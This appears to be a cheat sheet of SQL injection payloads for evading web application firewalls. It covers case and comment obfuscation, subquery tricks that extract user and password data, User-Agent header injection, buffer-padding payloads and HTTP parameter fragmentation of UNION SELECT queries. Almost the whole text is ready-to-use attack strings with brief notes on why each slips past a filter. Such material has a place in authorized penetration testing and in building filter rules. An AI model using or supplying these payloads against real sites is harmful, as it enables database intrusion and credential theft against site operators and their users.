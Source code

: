 ```sql
/index.php?id=1+OR+1=replace(1,1,1)--
```

```sql
/index.php?id=1+OR+1=right(1,1)--
```

```sql
/index.php?id=1+OR+replace(insert(1,1,1,1),1,1)=repeat(1,1)--
```


```sql
SELECT login FROM users WHERE id={`foo`/*bar*/(SELECT 2)};
```
- This works **because WAF might not recognize** `(SELECT 2)` inside `{}`.
```sql
SELECT login FROM users WHERE id=sEleCt/*foo*/1;
```

**using subqueries to bypass WAF** :
```sql
UNION SELECT user, password FROM users
-- blocked
```

```sql
1 || (SELECT user FROM users WHERE user_id = 1) = 'admin'
-- bypass
```

```sql
1 || (SELECT user FROM users WHERE user_id = 6) = 'admin'
-- blocked
```

```sql
1 || (SELECT user FROM users LIMIT 1 OFFSET 5) = 'admin'
-- bypass
```

```sql
1 || (SELECT user FROM users GROUP BY id HAVING id=6) = 'admin'
--bypass
```

**Using `-` to manipulate conditions**:
```sql
SELECT * FROM users WHERE name = 0-0;
```

**try modifying some parameters** :
```sql
User-Agent: ' OR 1=1;--
```

## some techniques that sqlmap doesn't use
### Buffer Overflow
Some WAFs have buffer length limits when processing SQL queries. Overloading the WAF’s buffer can cause unexpected behavior.
```sql
?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
```
`0xA * 1000` causes an overflow if the WAF buffer is too small. This can lead to crashes or bypasses.
### HTTP Parameter Fragmentation (HPF)
Splitting SQL queries across multiple parameters.
```sql
/?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--
```